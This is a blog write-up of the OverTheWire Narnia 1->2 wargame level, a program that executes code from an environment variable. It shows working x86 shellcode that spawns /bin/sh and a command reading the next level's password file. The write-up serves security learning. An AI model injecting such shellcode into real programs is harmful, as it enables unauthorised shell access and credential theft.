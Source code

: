 ```yaml
---
layout:     post
title:      "Overthewire.org - Narnia 1 -> 2"
subtitle:   "Write-Up"
date:       2017-02-02 0:00:00
author:     "W3ndige"
header-img: "img/overthewire-header.png"
permalink: /:title/
category: Overthewire
---
```


<h1>Introduction</h1>
<p>Another month, another challenge, next part of OverTheWire's Narnia wargames. Unfortunately lack of time, made it impossible for me to publish anything sooner. Sorry for that!</p>

<h1>Challenge</h1>

<p>Firstly let's take a look at the code of the program. </p>

{% highlight c %}
#include <stdio.h>

int main(){
	int (*ret)();

	if(getenv("EGG")==NULL){    
		printf("Give me something to execute at the env-variable EGG\n");
		exit(1);
	}

	printf("Trying to execute EGG!\n");
	ret = getenv("EGG");
	ret();

	return 0;
}

{% endhighlight %}

<p>The first thing that I see is that this program will check, whether or not the value of EGG variable is empty, if yes, it will print the message. But if not, it will try to execute it. </p>

<p>But what is enviromental variable? </p>

<p>Every time shell session is started, process is gathering information that should be available to the shell process and all child processes, putting them in special area called <b>enviroment</b>. </p>

<p><b>Enviromental variables</b> provide a way to influence the behaviour of software on the system. For example, the "LANG" environment variable determines the language in which software programs communicate with the user. They are represented as an key-value pairs. </p>

<pre>
KEY=VALUE
KEY=VALUE1:VALUE2
KEY="VALUE WITH SPACES"
</pre>

<p>Now when we understand the topic, let's try to set EGG variable as some random text possibly causing the program to crash. </p>

{% highlight bash %}
narnia1@melinda:/narnia$ export "EGG"="completelyrandomtext"
narnia1@melinda:/narnia$ ./narnia1
Trying to execute EGG!
Segmentation fault
{% endhighlight %}

<p>Yes! Now let's try and find some x86 shellcode that will be executed by the program. What I found working, was this <a href="http://shell-storm.org/shellcode/files/shellcode-811.php">shellcode</a>, which was actually second one I've tried - the first one didn't want to cooperate ;)</p>

{% highlight bash %}
narnia1@melinda:/narnia$ export "EGG"=$'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'
narnia1@melinda:/narnia$ ./narnia1
Trying to execute EGG!
$ whoami
narnia2
$ cat /etc/narnia_pass/narnia2
{% endhighlight %}

<p>We have the password to the next level! </p>

<h1>Conclusion</h1>

<p>It was another great challenge from <a href="www.overthewire.org">OverTheWire</a>. I'm looking forward to the next one, maybe something a little bit harder? We'll see!</p>

<p><b>UPDATE</b></p>
<p>To gain better insight into who visits my website, I decided to add Piwik Analytics as a way to both give me essential information, and to repsect your privacy. You can read more at the <a href="/privacy/">Privacy Policy</a>, but if you still have any questions, contact me and I'll try my best to answer. </p>

<p>~ Stay safe!</p>
